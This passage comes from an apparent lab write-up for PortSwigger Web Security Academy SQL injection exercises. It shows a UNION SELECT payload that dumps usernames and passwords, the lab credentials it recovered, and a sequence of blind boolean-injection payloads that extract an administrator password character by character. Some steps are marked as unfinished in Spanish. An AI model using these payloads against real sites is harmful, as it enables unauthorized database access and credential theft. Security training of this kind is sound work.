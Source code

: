     PASSWORD_PBSDQA
    USERNAME_UCSPNN


    '+UNION+SELECT+null,USERNAME_UCSPNN||':'||PASSWORD_PBSDQA +FROM+USERS_SRDZXP--+

    administrator:i7y3yvv6wwhncqh5ib3a
    carlos:i88mkudi5ib4e5h4pd76
    wiener:43zoumrp40l79jfp2n5h
    ```

### [Blind SQL injection][sqli_blind]

11. #### **Blind SQL injection with conditional responses**

    > 📝 **Note:**
    <mark>If like me you don't have Burp Suite Pro, you can use one of
    [these][sqli_script_conditional_responses] scripts to automate the last part of the attack.</mark>

    ```sql
                        (Content-Length: 2963, "Welcome" message appears)
    '                   (Content-Length: 2902, "Welcome" message DOESN'T appears)
    '+AND+'1'='1        (Content-Length: 2963, "Welcome" message appears)
    '+AND+'1'='0        (Content-Length: 2902, "Welcome" message DOESN'T appears)

    '+ORDER+BY+10--+
    ...
    '+ORDER+BY+1--+

    '+AND+(SELECT '1')='1

    *** FALTA: Cómo sacar el total de tablas y su nombre. ***

    '+AND+(SELECT '1' FROM users LIMIT 1)='1

    *** FALTA: Cómo sacar el total de columnas de una tabla y su nombre. ***

    '+AND+(SELECT '1' FROM users WHERE username='administrator')='1

    '+AND+(SELECT '1' FROM users WHERE username = 'administrator' AND LENGTH(password)>10)='1
    ...
    '+AND+(SELECT '1' FROM users WHERE username = 'administrator' AND LENGTH(password)=20)='1


    '+AND+(SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator')='a
    ...
    '+AND+(SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator')='z

    ...

    '+AND+(SELECT SUBSTRING(password,20,1) FROM users WHERE username = 'administrator')='a
    ...
    '+AND+(SELECT SUBSTRING(password,20,1) FROM users WHERE username = 'administrator')='r

    z5ta0ialqfrn6upo5xlr
    ```

12. #### **Blind SQL injection with conditional errors**

    > 📝 **Note:**
    <mark>If like me you don't have Burp Suite Pro, you can use one of
    [these][sqli_script_conditional_errors] scripts to automate the last part of the attack.</mark>


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind
